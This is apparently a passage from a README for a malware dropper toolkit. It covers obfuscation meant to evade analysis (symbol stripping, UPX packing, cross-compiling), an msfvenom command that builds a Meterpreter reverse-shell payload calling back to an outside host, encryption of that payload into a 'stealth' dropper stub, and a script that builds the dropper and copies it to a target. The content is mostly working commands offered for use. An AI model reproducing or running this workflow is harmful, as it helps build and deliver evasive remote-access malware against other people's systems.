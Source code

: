 ### **4. Obfuscation Techniques**
```bash
# Strip symbols from final executables
strip final_dropper

# Use UPX for additional compression
upx --best final_dropper

# Cross-compile to avoid analysis
x86_64-w64-mingw32-g++ -o dropper.exe dropper.cpp
```

---

## 🎓 Advanced Techniques

### **1. Custom Stub Templates**
```cpp
// Create custom stub template
// Add to native_stub_generator.cpp

std::string generateCustomTemplate() {
    return R"(
        // Custom stub template
        #include <iostream>
        #include <fstream>
        
        int main() {
            // Your custom decryption logic here
            return 0;
        }
    )";
}
```

### **2. Integration with Other Tools**
```bash
# Integrate with Metasploit
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > payload.bin
./native_encryptor payload.bin encrypted_payload.bin
./stub_linker my_stub.cpp encrypted_payload.bin msf_dropper.cpp
```

### **3. Automated Deployment**
```bash
#!/bin/bash
# auto_deploy.sh - Automated deployment script

# Build all components
make clean && make

# Generate stubs
./native_stub_generator --standalone deploy_stub.cpp standalone_stealth

# Encrypt payload
./native_encryptor payload.exe encrypted_payload.bin

# Create dropper
./stub_linker deploy_stub.cpp encrypted_payload.bin deploy_dropper.cpp
g++ -O2 -s -o deploy_dropper deploy_dropper.cpp

# Deploy to target
scp deploy_dropper user@target:/tmp/
```